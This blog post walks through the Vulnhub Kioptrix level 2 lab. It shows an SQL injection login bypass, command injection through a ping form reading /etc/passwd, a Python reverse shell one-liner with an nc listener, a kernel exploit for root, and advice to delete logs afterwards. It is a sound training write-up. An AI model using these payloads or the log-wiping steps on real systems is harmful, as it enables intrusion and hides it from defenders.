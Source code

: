 ```yaml
---
layout: post
title: "Vulnhub: Kioptrix level 2 Walkthrough"
subtitle: "Difficulty: Simple"
# cover-img: /assets/img/path.jpg
thumbnail-img: /assets/img/thumb.png
share-img: /assets/img/path.jpg
tags: [Vulnhub, Kioptrix, level 2,walkthrough]
---
```


Hi Folks...
Before moving forward, please try harder and come back later. Still you are stuck then let's get started.

## Objective
Gain the root access.

## Algorithm
- Locate the target machine : Host Discovery
- Find the entry points : Enumeration
- Gain access to the machine : Finding vulnerability and exploitation
- Escalate the privileges : Privilege Escalation
- Clean up : Post-Exploitation

#### Host Discovery
Generally we know the target IP address. Since lab is set up as internal network and addresses are assigned by DHCP server. We need to find the target IP address. Host IP address is ```10.10.10.2```. Using netdiscover we found the target IP i.e., ```10.10.10.4```.
```bash
sudo netdiscover -r 10.10.10.1/24
```
![sudo netdiscover -r \<ip-range\>](/assets/img/vulnhub/kioptrix/lvl2/kioptrix_lvl2_host_discovery.png "Host Discovery using netdiscover")

#### Enumeration
It is the most important step to achieve our objective. More the information about the target more the possibilities of attack vectors. Quick nmap scan reveals the information about the various common services running on the target.
```bash
nmap --vv -sV -sC -A -T5 -oN nmap_fast 10.10.10.4
```
![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-1.png "nmap scan")

![nmap results](/assets/img/vulnhub/kioptrix/lvl2/nmap-2.png "nmap scan")


#### Finding vulnerability and exploitation
First question comes in mind is which services is to enumerate next such that we find the vulnerability ASAP. There is no particular answer to this. Enumerating the services simultaneouly could be good start. Our main objective should be getting as much as information possible. Let's enumerate the http (80) & https(443).
On visiting a url (http://10.10.10.4) we got the login page. In the subterminal, run the gobuster (dirb/dirbuster) and nikto. While we visit a url, in the meantime we will list the directories and scan the webserver for vulnerabilities in case we do not find anything by just exploring login page.
```bash
firefox 10.10.10.4 &
```
![login page](/assets/img/vulnhub/kioptrix/lvl2/login-page.png "Login Page")

By seeing login page, several ideas come into mind - SQL Injection, directory traversal, LFI, RFI, brute forcing the credentials, basically web-based vulnerabilities.
Let's try SQL Injection. On several attempts, provide crafted usernames and password e.g. username:```anything``` password:```' or '1'='1```.
```bash
' or '1'='1
```
One might think how we directly come up with this set of credentials. 
> Answer is Practise! Practise! Practise! And Gathering the results. It's like dynamic programming in algorithm. Whatever valuable you find, store and reuse it.

Eureka!! We bypassed the authentication, using SQL Injection and landed on Administrative Web Console.
![Administrative Web Console](/assets/img/vulnhub/kioptrix/lvl2/admin-page.png "Administrative Web Console")

As a normal admin user, we get the ping results on inputing the IP address (of the host). Next questions should be is it only intended for ping? Because we see the IP-address (whatever input we provide) in the result.

![Ping result](/assets/img/vulnhub/kioptrix/lvl2/ping-result.png "Ping Result")

Let's try to provide different input e.g. ```cat /etc/passwd```. We are not getting anything apart from command echo. What exactly we are performing!!! Application is intended to execute the ping command,right? What about executing that command and then executing other command. Let's check that out. Our input will be
```bash
10.10.10.2; cat /etc/passwd
```
Hurray!!! We got the command execution. Even we can skip the IP-address like ;cat /etc/passwd would suffice.
![Command Execution](/assets/img/vulnhub/kioptrix/lvl2/ping-result-2.png "Command Execution")

Next obvious question should be How can we get the remote shell? netttcaattt! On further exploration, we did not find nc, ```;ls /usr/bin | grep nc```. wget is installed on the target. We can download the nc from the host and get the revese shell. Another approach would be getting reverse shell using python as python is installed on most of the linux based system. We confirmed this by checking the python binaries, ```;ls /usr/bin | grep python```. Here is our command for reverse shell using python.
```python2
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.2",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
Please do not forget to change the Host IP-Address and listening Port.
Do we need to remember this command? Hell, No. Our ninja techinque will help us. "Katon: Gōkakyū no Jutsu" --> ```Google-fu```.  Note: No need to worry about "Katon: Gōkakyū no Jutsu". It is intended for anime fan #Naruto.

Before executing the command start the listener on the host.
```bash
nc -lnvp 8888
```
Now we are good to go. Provide the python one-liner in input field of Administrative Web Console. Hurray!!! We got the shell. It might be a lot to grasp. Let's take a 5 min break and proceed with our next task.

#### Privilege Escalation
There are different ways to achive this based on the information we obtain about the target. For example, looking scheduled task (cron jobs), file permissions, SUID bits, kernal exploits etc,.  
Let's explore little bit, before finding possible approach for escalation.

![System Info](/assets/img/vulnhub/kioptrix/lvl2/system-info.png "Target Information")

System is running on cent OS 4.5. Let's find whether there is any attack vector using searchsploit.

![Exploit] (/assets/img/vulnhub/kioptrix/lvl2/exploit.png "Exploit")

It does satisfy the requirement. Transfer the .c file to the target and compile it. How do transfer and compile? It is easy, if not I recommend you to use the ninja technique. I'll leave that to you. We have named pwn as our compiled file. Run the exploit. Hurray!!!! WE GOT THE ROOT.

![Pwned](/assets/img/vulnhub/kioptrix/lvl2/root.png "Pwned")


#### Post-Exploitation

This step involves the removal of footprints.
- Delete the downloaded .c and compiled (object) file.
- Delete the necessary logs (history, apache logs etc)

Note: Whenever we download any file, it is recommended to perform under /tmp/ directory. Since it's contents get deleted on reboot.

### Until next time! Keep Learning And Never give up! 
That should be your nindo.
